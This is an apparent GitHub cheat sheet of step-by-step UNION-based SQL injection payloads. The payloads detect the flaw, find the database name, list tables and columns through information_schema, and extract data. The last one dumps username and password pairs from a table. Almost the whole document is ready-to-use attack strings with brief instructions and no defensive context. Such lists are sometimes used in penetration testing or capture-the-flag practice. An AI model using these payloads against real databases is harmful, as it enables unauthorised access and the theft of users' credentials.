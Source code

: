 `UNION Injection` `Please REMOVE () Before Using the Commands`

`To find if SQLi Vulnarablity is Present`
```
0 UNION ALL SELECT 1,2,3,...; #               (Do This until you get a 200 service Result)
```
OR
```
' and 0=1 union select 1,2,3#
```
___
`To Find The Database Name`
```
0 UNION SELECT 1,2,...,database(); #
```
___
`Our next query will gather a list of tables that are in this database`
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'DATABASE NAME'; #
```
___
`To find the 1st Column Name`
```
0 UNION ALL SELECT column_name,null,null,null,null... FROM information_schema.columns WHERE table_name="Give the Table Name here"; #
```
___
`To find all Column Names`
```
0 UNION ALL SELECT group_concat(column_name),null,null,null,null... FROM information_schema.columns WHERE table_name="Give the table name here"; #
```
___
`To Extract Data from SQL Database`
```
0 UNION ALL SELECT (Column name),null,null,null,null FROM (table name) WHERE (condition comes here if any, else skip WHERE); #
```
OR
```
0 UNION SELECT 1,2,...,group_concat(username,':',password SEPARATOR '<br>') FROM TABLENAME; #
```
___
